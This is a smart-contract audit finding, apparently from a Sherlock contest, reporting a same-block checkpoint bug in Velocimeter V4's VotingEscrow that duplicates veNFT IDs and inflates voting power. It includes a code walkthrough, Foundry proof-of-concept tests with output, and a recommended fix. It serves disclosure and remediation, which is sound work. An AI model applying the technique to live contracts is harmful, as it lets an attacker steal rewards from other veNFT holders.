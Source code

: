 Polite Butter Gazelle

High

# Attacker can inflate voting balance on gauges by duplicating `veNFTs` in a checkpoint

## Summary

`veNFT` holders can vote on gauges every epoch for rewards, where the weight of the vote depends on the amount locked.

Users can delegate their `veNFT` to anyone, which transfers the balance of their locked `veNFT` amount to them.

The problem is when there is more than one transfer via `_moveTokenDelegates` in the same block, the `_findWhatCheckpointToWrite` function, which is responsible for returning the index of a new checkpoint, will instead return the index of the old checkpoint. The index of the old checkpoint contains the state of the previous transfer, and will duplicate the `token ids` in that checkpoint array. I understand this may sound confusing, and will do my best to explain in `Vulnerability Detail` section.

An attacker can exploit this by inflating their voting power, which is determined by the balance of the token IDs within that checkpoint.

This is a [known issue](https://velodrome.finance/security) with `Velodrome V1` forks that hasn't been fixed in `Velocimeter V4`.

## Vulnerability Detail

Let's look at how NFTs are transferred in `VotingEscrow`:

[VotingEscrow.sol#L331](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L331)
```javascript
    _moveTokenDelegates(delegates(_from), delegates(_to), _tokenId);
```

`_moveTokenDelegates` is executed to delegate the `veNFT` of the `_from` address to the `_to` address:

[VotingEscrow.sol#L1362-L1411](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1362-L1411)

```javascript
    function _moveTokenDelegates(
        address srcRep,
        address dstRep,
        uint _tokenId
    ) internal {
        if (srcRep != dstRep && _tokenId > 0) {
            if (srcRep != address(0)) {
                uint32 srcRepNum = numCheckpoints[srcRep];
                uint[] storage srcRepOld = srcRepNum > 0
                    ? checkpoints[srcRep][srcRepNum - 1].tokenIds
                    : checkpoints[srcRep][0].tokenIds;
@>              uint32 nextSrcRepNum = _findWhatCheckpointToWrite(srcRep);
                uint[] storage srcRepNew = checkpoints[srcRep][
                    nextSrcRepNum
                ].tokenIds;
                // All the same except _tokenId
                for (uint i = 0; i < srcRepOld.length; i++) {
                    uint tId = srcRepOld[i];
                    if (tId != _tokenId) {
                        srcRepNew.push(tId);
                    }
                }

                numCheckpoints[srcRep] = srcRepNum + 1;
            }

            if (dstRep != address(0)) {
                uint32 dstRepNum = numCheckpoints[dstRep];
                uint[] storage dstRepOld = dstRepNum > 0
                    ? checkpoints[dstRep][dstRepNum - 1].tokenIds
                    : checkpoints[dstRep][0].tokenIds;
@>              uint32 nextDstRepNum = _findWhatCheckpointToWrite(dstRep);
                uint[] storage dstRepNew = checkpoints[dstRep][
                    nextDstRepNum
                ].tokenIds;
                // All the same plus _tokenId
                require(
                    dstRepOld.length + 1 <= MAX_DELEGATES,
                    "dstRep would have too many tokenIds"
                );
                for (uint i = 0; i < dstRepOld.length; i++) {
                    uint tId = dstRepOld[i];
                    dstRepNew.push(tId);
                }
                dstRepNew.push(_tokenId);

                numCheckpoints[dstRep] = dstRepNum + 1;
            }
        }
    }
```

Let's walk through what's happening here. First, an array of the current token ids of the sender is stored in `srcRepOld`. Next, the new index of the `checkpoints` mapping is collected via the call to `_findWhatCheckpointToWrite`:

[VotingEscrow.sol#L1413-L1429](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1413-L1429)
```javascript
    function _findWhatCheckpointToWrite(address account)
        internal
        view
        returns (uint32)
    {
        uint _timestamp = block.timestamp;
        uint32 _nCheckPoints = numCheckpoints[account];

        if (
            _nCheckPoints > 0 &&
@>          checkpoints[account][_nCheckPoints - 1].timestamp == _timestamp
        ) {
            return _nCheckPoints - 1; //@audit old index
        } else {
            return _nCheckPoints; //@audit new index
        }
    }
```

We can see that if we are in the same `block.timestamp` of the recent `checkpoints` index, then return the old index, otherwise return a new index.

Next, `srcRepNew`, which is a storage pointer to the new `checkpoints` index is initialized.

The entire list of token ids in `srcRepOld` *except* for the `token id` being transferred is pushed in a new array called `srcRepNew`.

This ensures that the most recent checkpoint for the sender has every token id owned by the sender, except for the one being delegated.

The exact process is repeated for the receiver, where they now receive an extra `token id` (the one being delegated).

However, we just saw that `_findWhatCheckpointToWrite` returns the old index if the latest checkpoint is in the current `block.timestamp`. This means that if there is more than one transfer call in the same block, instead of adding the new NFTs in the new checkpoint index, it will add the exact ones again in the old index, causing duplicate veNFTs. 

Consider the following example:

Alice: tokenIds = [1, 2], checkpoint index = 0
Bob: tokenIds = [3], checkpoint index = 0

*Alice transfers tokenid = 2 to Bob:*

Alice: tokenIds = [1], checkpoint index = 1
Bob: tokenIds = [3, 2], checkpoint index = 1

*Alice transfers tokenid = 1 to Bob in the same block again:*

Alice: tokenIds = [1], checkpoint index = 1
Bob: tokenIds = [3, 2, 3, 2, 1], checkpoint index = 1

Not only did Bob receive duplicate NFTs, but Alice didn't lose hers. An attacker can inflate their voting power by exploiting this since the checkpoint will be used to determine voting power, and steal rewards.

## Proof of Concept

<details>
<summary>Coded PoC</summary>
<br>

To run this test, first another bug has to be fixed that I have reported in a separate issue. This bug is that the `timestamp` of Checkpoints are never initialized. To fix it, make the following changes in `VotingEscrow::_moveAllDelegates`:

```diff
    function _moveTokenDelegates(
        address srcRep,
        address dstRep,
        uint _tokenId
    ) internal {
        if (srcRep != dstRep && _tokenId > 0) {
            if (srcRep != address(0)) {
                uint32 srcRepNum = numCheckpoints[srcRep];
                uint[] storage srcRepOld = srcRepNum > 0
                    ? checkpoints[srcRep][srcRepNum - 1].tokenIds
                    : checkpoints[srcRep][0].tokenIds;
                uint32 nextSrcRepNum = _findWhatCheckpointToWrite(srcRep);
                uint[] storage srcRepNew = checkpoints[srcRep][
                    nextSrcRepNum
                ].tokenIds;
                // All the same except _tokenId
                for (uint i = 0; i < srcRepOld.length; i++) {
                    uint tId = srcRepOld[i];
                    if (tId != _tokenId) {
                        srcRepNew.push(tId);
                    }
                }

                numCheckpoints[srcRep] = srcRepNum + 1;
+               checkpoints[srcRep][srcRepNum].timestamp = block.timestamp;
            }

            if (dstRep != address(0)) {
                uint32 dstRepNum = numCheckpoints[dstRep];
                uint[] storage dstRepOld = dstRepNum > 0
                    ? checkpoints[dstRep][dstRepNum - 1].tokenIds
                    : checkpoints[dstRep][0].tokenIds;
                uint32 nextDstRepNum = _findWhatCheckpointToWrite(dstRep);
                uint[] storage dstRepNew = checkpoints[dstRep][
                    nextDstRepNum
                ].tokenIds;
                // All the same plus _tokenId
                require(
                    dstRepOld.length + 1 <= MAX_DELEGATES,
                    "dstRep would have too many tokenIds"
                );
+               uint len = dstRepOld.length;
-               for (uint i = 0; i < dstRepOld.length; i++) {
+               for (uint i = 0; i < len; i++) {
                    uint tId = dstRepOld[i];
                    dstRepNew.push(tId);
                }
                dstRepNew.push(_tokenId);

                numCheckpoints[dstRep] = dstRepNum + 1;
+               checkpoints[dstRep][dstRepNum].timestamp = block.timestamp;
            }
        }
    }
```

The changes with the `for` loop is to avoid an infinite loop when the old index is used.

In addition, to make this test simpler, add the following function in `VotingEscrow`, which retrieves the checkpoint mapping (foundry was giving trouble with the built-in getter function):

```diff
+   function getCheckpoint(address owner, uint32 index) public view returns (Checkpoint memory) {
+       return checkpoints[owner][index];
+   }
```

Now, add the following to `test/VotingEscrow.t.sol` and run `forge test --mt testSameBlockCheckpoint -vv`

```javascript
    function testSameBlockCheckpoint() public {
        uint256 maxtime = 52 * 7 * 24 * 3600; 
        FLOW.mint(address(owner), TOKEN_1M);
        DAI.mint(address(owner), TOKEN_1M);
        FLOW.approve(address(router), TOKEN_1M);
        DAI.approve(address(router), TOKEN_1M);
        router.addLiquidity(address(FLOW), address(DAI), false, TOKEN_1M, TOKEN_1M, 0, 0, address(owner), block.timestamp);
        address alice = vm.addr(1);

        vm.startPrank(address(owner));
        flowDaiPair.transfer(alice, 2 ether);
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint tokenId = escrow.create_lock(TOKEN_1, maxtime);
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 2);
        vm.stopPrank();

        vm.startPrank(address(alice));
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint tokenId2 = escrow.create_lock(1 ether, maxtime);
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 2);
        uint tokenId3 = escrow.create_lock(1 ether, maxtime);
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 2);
        
        escrow.approve(address(owner), tokenId2);
        escrow.approve(address(owner), tokenId3);

        vm.stopPrank();
        escrow.transferFrom(address(alice), address(owner), tokenId2);

        escrow.transferFrom(address(alice), address(owner), tokenId3);

        uint32 nCheckpoints = escrow.numCheckpoints(address(owner));
 
        VotingEscrow.Checkpoint memory cp  = escrow.getCheckpoint(address(owner), nCheckpoints - 2);
        
        uint[] memory _tokenIdsOld = cp.tokenIds;
        uint len = _tokenIdsOld.length;
        console.log("Number of tokenids at old index for attacker: ", len);
        assertEq(cp.timestamp, 7);

        cp  = escrow.getCheckpoint(address(owner), nCheckpoints - 1);
        
        uint[] memory _tokenIdsNew = cp.tokenIds;
        len = _tokenIdsNew.length;
        console.log("Number of tokenids at new index for attacker: ", len);
    }
```

Add the following to `test/VotingEscrow.t.sol` and run `forge test --mt testDifferentBlockCheckpoint -vv`

```javascript
    function testDifferentBlockCheckpoint() public {
        uint256 maxtime = 52 * 7 * 24 * 3600; // 52 weeks
        FLOW.mint(address(owner), TOKEN_1M);
        DAI.mint(address(owner), TOKEN_1M);
        FLOW.approve(address(router), TOKEN_1M);
        DAI.approve(address(router), TOKEN_1M);
        router.addLiquidity(address(FLOW), address(DAI), false, TOKEN_1M, TOKEN_1M, 0, 0, address(owner), block.timestamp);
        address alice = vm.addr(1);

        vm.startPrank(address(owner));
        flowDaiPair.transfer(alice, 2 ether);
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint tokenId = escrow.create_lock(TOKEN_1, maxtime);
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 2);
        vm.stopPrank();

        vm.startPrank(address(alice));
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint tokenId2 = escrow.create_lock(1 ether, maxtime);
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 2);
        uint tokenId3 = escrow.create_lock(1 ether, maxtime);
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 2);
        
        escrow.approve(address(owner), tokenId2);
        escrow.approve(address(owner), tokenId3);

        vm.stopPrank();

        escrow.transferFrom(address(alice), address(owner), tokenId2);
        vm.warp(block.timestamp + 2);
        escrow.transferFrom(address(alice), address(owner), tokenId3);

        uint32 nCheckpoints = escrow.numCheckpoints(address(owner));
 
        VotingEscrow.Checkpoint memory cp  = escrow.getCheckpoint(address(owner), nCheckpoints - 1);
        
        uint[] memory _tokenIdsOld = cp.tokenIds;
        uint len = _tokenIdsOld.length;
        console.log("Number of tokenids at latest index: ", len);

        cp  = escrow.getCheckpoint(address(owner), nCheckpoints - 1);
        
        uint[] memory _tokenIdsNew = cp.tokenIds;
        len = _tokenIdsNew.length;
        console.log("Number of tokenids at new index: ", len);
    }
```

</details>

### Console Output

```text
Running 1 test for test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testSameBlockCheckpoint() (gas: 1844394)
Logs:
  Number of tokenids at old index for attacker:  5
  Number of tokenids at new index for attacker:  0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.24ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

```text
Running 1 test for test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testDifferentBlockCheckpoint() (gas: 1864833)
Logs:
  Number of tokenids at latest index:  3
  Number of tokenids at new index:  3

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.25ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

We can see when the transfers are done in the same block, the duplicate `veNFTs` are added to the same checkpoint, whereas in different blocks it is added to the next one.

## Impact

Inflated votes, stolen rewards, loss of funds to other `veNFT` holders, voting system exploited.

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L331

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1362-L1411

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1413-L1429

## Tool used

Manual Review

## Recommendation

`Velodrome Finance` [fixed this issue](https://github.com/velodrome-finance/contracts/commit/a670bfb62c69fe38ac918b734a03b68a5505f8a2) by overwriting the old index with the new NFTs rather than adding to it when the `block.timestamp` is the same: `_checkpoints[dstRep][dstRepNum - 1].tokenIds = dstRepNew;`. Consider implementing the same changes.